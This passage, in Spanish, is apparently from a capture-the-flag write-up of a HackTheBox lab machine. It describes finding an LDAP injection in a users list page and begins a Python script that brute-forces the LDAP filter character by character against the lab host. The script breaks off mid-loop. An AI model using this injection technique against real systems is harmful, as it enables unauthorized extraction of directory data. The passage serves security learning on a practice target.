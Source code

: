 Hemos descubierto bastantes... así que ahora seguiremos con los demas rutas existentes, para ahorrar tiempo la unica que por ahora nos vale es la _employees_, que siguiendo el metodo utilizado con Users, descubrimos la ruta _login.php_, intente usar inyección SQL o baypassearla, pero ninguno funciono así que trabajaremos con lo que tenemos.

![login](../../../../../assets/analysis/login.png)

### Inyección Ldap

Inspeccionando la pagina probé si era vulnerable a injecciones sql y daba un fallo, mirando un poco vi que el fallo se originaba en los () esto quiere decir que se acontece una [inyección LDAP](# 'Vulnerabilidad donde entrada no saneada modifica filtros LDAP permitiendo consultas o cambios no autorizados; mitigarse escapando caracteres especiales y usando APIs/allowlists.'), para este tipo de vulneravilidades no existe una automatización y si lo haces manualmente te puedes tirar la vida haciendo lo. Así que vamos a craftearnos un pequeñito script para automatizar la explotación. 

##### Creando el script

```python
#! /usr/bin/env python3

import requests
import signal
import sys 
import re
import string
from termcolor import colored

def exit(a,b):
    print(colored(f"\nSalida exitosa.....", 'red'))
    sys.exit(0)


signal.signal(signal.SIGINT, exit)
url= 'http://internal.analysis.htb/users/list.php?name='
characters= string.ascii_lowercase

def injection():
    
    print()
    for character in characters:

        r = requests.get(url+character+'*')
        content= r.text
```